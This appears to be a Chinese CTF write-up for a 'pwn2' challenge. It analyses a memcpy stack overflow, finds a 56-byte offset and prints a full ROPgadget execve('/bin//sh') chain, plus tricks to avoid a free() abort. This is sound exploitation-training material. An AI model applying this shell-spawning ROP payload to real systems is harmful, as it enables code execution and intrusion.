 ## pwn2 (pwn, 350p)

提供了以下文件：  
[pwn2](./pwn2)

---------------------------------------

### 0x1 分析程序
执行下程序，再用IDA分析下，发现有个`memcpy`溢出漏洞，如果一开始的输入的calculate次数过多，再选择`5 Save the result`将导致程序溢出。查看下需要多少个字节才能溢出，在IDA的伪代码中,可以看到`memcpy`是copy到`&v5`指向的地址里。

```
      case 5:
        memcpy(&v5, v7, 4 * v6);
        free(v7);
        return 0;
```

查看下`v5`在栈中的地址偏移情况：

```
-00000034 v5              dd ?
-00000030 var_30          dd ?
-0000002C var_2C          dd ?
-00000028 var_28          dd ?
-00000024 var_24          dd ?
-00000020 var_20          dd ?
-0000001C var_1C          dd ?
-00000018 var_18          dd ?
-00000014 var_14          dd ?
-00000010 var_10          dd ?
-0000000C v6              dd ?
-00000008 v7              dd ?
-00000004 v8              dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)			  ; return address
+00000008 argc            dd ?
+0000000C argv            dd ?                    ; offset
+00000010 envp            dd ?                    ; offset
+00000014
+00000014 ; end of stack variables
```
可以看到56（0x34+4）个字节后将溢出覆盖返回地址。

### 0x2 构造exp
发现程序里没有`system`或`execv`等函数, 但这个程序貌似是静态链接编译的,指令应该比较丰富,用ROPgadget尝试生成ropchain。

```
$ ROPgadget --binary pwn2 --ropchain
	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x080bb406) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x080a1dad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea064) # @ .data + 4
	p += pack('<I', 0x080bb406) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x080a1dad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054730) # xor eax, eax ; ret
	p += pack('<I', 0x080a1dad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481c9) # pop ebx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x0806ed31) # pop ecx ; pop ebx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x080ea060) # padding without overwrite ebx
	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054730) # xor eax, eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x08049781) # int 0x80
```

good，有了ropchain，那就容易了。到这里我们构造出的payload大概如下：
```
payload = 'A'*56 + ropchain
```

但测试后发现不行，运行后报abort，也生成了core文件。用`gdb pwn2 core`查看出错原因，发现是`free`函数报错了。原来`memcpy`后就执行`free(v7)`, 而`v7`保存的是之前`malloc	`的地址。由于溢出也把`v7`的值也覆盖了，所以导致`free`报abort。这时队友esrever10说试试`free(0)`,果然是可以的，大赞^_^！  

`free`问题解决了，但又遇到新问题，在执行`mov dword ptr [edx], eax`时报错，报写入地址不正确，调试后发现`edx`这时的值为0，这不科学，明明上面给`edx`赋值了。找了好久也没找到原因，最后灵机一动，把给`edx`赋值的语句多copy一次。nice，终于搞定了。全部代码请看[exp.py](./exp.py)


